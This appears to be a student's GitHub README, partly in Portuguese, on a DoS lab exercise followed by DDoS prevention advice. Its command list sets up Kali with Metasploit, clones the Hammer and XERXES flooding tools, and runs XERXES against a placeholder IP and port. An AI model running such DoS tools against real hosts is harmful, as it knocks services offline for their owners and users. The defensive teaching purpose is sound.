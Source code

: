 # TrabalhoMarcusLahr

Command list used:

```
docker pull kalilinux/kali-rolling
docker run -t -d -i kalilinux/kali-rolling /bin/bash
apt-get update && apt-get install metasploit-framework
apt install python
apt install git
apt install dnsutils
git clone https://github.com/Pavithran-R/Hammer/
sudo apt-get install software-properties-common
sudo add-apt-repository ppa:deadsnakes/ppa
sudo apt-get update
sudo apt-get install python3.6
git clone https://github.com/XCHADXFAQ77X/XERXES.git
cd XERXES
gcc -o xerxes xerxes.c
./xerxes IP PORT
```
--- 

## Protegendo o Apache

    https://www.myrouter.com.br/protegendo-o-apache-contra-ataques-dos-e-slowloris/

---

## Formas de se prevenir contra ataques DDOS:

1- Faca um plano de resposta a incidente de DNS

    - Faca um checklist com todos os seus dispositivos na rede e ferramentas de filtro de pacotes de rede e mantenha essa lista atualizada.

    - Monte um time de resposta para lidar com esse ataque e garantir que eles estejam treinados para a hora do ataque.

    - Mantenha comunicacao com clientes e com os fornecedores de servicos em cloud para saber exatamente o que esta acontecendo.

2- Monte uma Infraestrutura segura

    Combine firewalls, VPN, anti-spam e filtro de conteudo, loadbalancers e outras camadas de protecao para DDoS, juntos eles permitem analise do trafego de rede e tambem a mitigacao desses ataques.

3- Monte uma Infraestrutura forte

    O ideal e ter mais de um servidor para sua aplicacao, assim tendo redundancia e aumentando a disponibilidade do seu servico, especialmente se for em localizacoes geograficas diferentes.




https://phoenixnap.com/blog/prevent-ddos-attacks